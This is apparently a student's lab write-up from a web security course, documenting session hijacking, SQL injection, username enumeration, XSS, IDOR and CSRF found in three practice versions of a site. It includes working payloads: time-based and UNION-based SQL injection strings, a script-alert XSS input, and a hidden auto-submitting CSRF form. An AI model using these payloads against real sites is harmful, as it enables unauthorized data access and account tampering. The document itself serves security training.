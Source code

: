 # Week 9 - Pentesting Live Targets

Time spent: **12** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking/Fixation
Steps to recreate:
  1. Log in on one browser and use the hacktools/change_session_id.php script to get your session ID.
  2. On a different browser, change your session ID to match the previous one you recived using hacktools/change_sessions_id.php.
  3. You can now log in to the same account on the new browser without having to enter a password since it has the same session id as the other browser.
  
<img src="blue_target_session_hijacking.gif">  


Vulnerability #2: SQL Injection (SQLi)

Steps to recreate:
  1. Visit the page of any sales person.
  2. In the url, instead of ```id=??```, write ```id=' OR SLEEP(5)=0--'```, in the sleep() function you can change the seconds to chage the loading time. 
  3. This causes the page to continue loading for the specified amount of time in seconds. 
  
  <img src="blue_target_sql injection.gif">



## Green

Vulnerability #1: Username Enumeration

Steps to recreate:
  1. Trying to log in with a username that exists results in bold text saying failed to log in. The html class is listed as "failure".
  2. Trying to log in with a username that doesn't exist results in a text saying failed to log in that is not bolded. The html class is also differenct and listed as "failed".
  3. The green developer made different classes for a username that does exist and a username that doesn't exist. The other two developers use the same "failure" class for both cases. 
  
  <img src="green_target_Username_Enumeration.gif">
  
Vulnerability #2:Cross-Site Scripting (XSS)

Steps to recreate:
  1. Go to the contact tab and fill out the form with the following inside the feedback section:
  ```<script>alert('Owen found the XSS');</script>```
  2. Now when a user logs in and checks the feedback tab, the script will be ran and there will be a message with the alert. 
  
  <img src="green_target_XSS.gif">

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Steps to recreate:
  1. You can view any salesperson's page by changing the value of the id in the url
  2. ID 10 or 11 shouldn't be accessible by a user that is not logged in. When trying to check ID number 10 or 11 for other colors the pages redirect to the main page.
  
  <img src="Red_target_IDOR.gif">

Vulnerability #2:Cross-Site Request Forgery (CSRF)

Steps to recreate:
  1. Logging in and running the html file causes the users name to be changed according to the info entered in the html file. 
  2. For example, if an authenticated user loaded a page with the following sample HTML, the information for salesperson with id 1 will change to whatever is in the html file without the action being visible to the user:
  
  ```
<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="0" height="0" frameBorder="0" id="gif" name="gif"></iframe>

<form action="https://104.198.208.81/red/public/staff/users/edit.php?id=1" method="post" id="leform" target="gif">
  <input name="csrf_token" value="ae0c79a6ab8d30d1c0c147699df11fe8" type="hidden">
  <input name="first_name" value="code" type="hidden">
  <input name="last_name" value="path" type="hidden">
  <input name="username" value="User" type="hidden">
  <input name="email" value="codepath@email.com" type="hidden">
  <input name="previous_password" value="" type="hidden">
  <input name="password" value="" type="hidden">
  <input name="confirm_password" value="" type="hidden">
</form>

<script>document.getElementById("leform").submit();</script>

<iframe src="https://external-preview.redd.it/_GZkadG-AhBGlnwXQ08iJxq1ml0i983gAMY_fXGPU0s.gif?format=mp4&s=e677f20fdeae6596557d8ce1731f8e7d68e573bc" width="480" height="253" frameBorder="0" class="giphy-embed" allowFullScreen id="gif
" name="gif"></iframe>
```
  
  <img src="Red_target_CSRF.gif">
  
## Optional
  
**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**
  
Steps to recreate:
  1. We took advatage of blue and injected the following SQL query in the url to get the names of tables and columns:
    
    ```
    ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
    ```
    
  <img src="optional_1.gif">
   
  
## Notes

Describe any challenges encountered while doing the work?

This was a bit tedious, I had hard time with writing a html form for cross-site scripting forgery. In general, it took longer than previous weeks as I had to check different targets for different vulnerabilities. Furthermore, not being able to reset the feedback didn't allow me to execute few of the other scripts I wanted to run.  
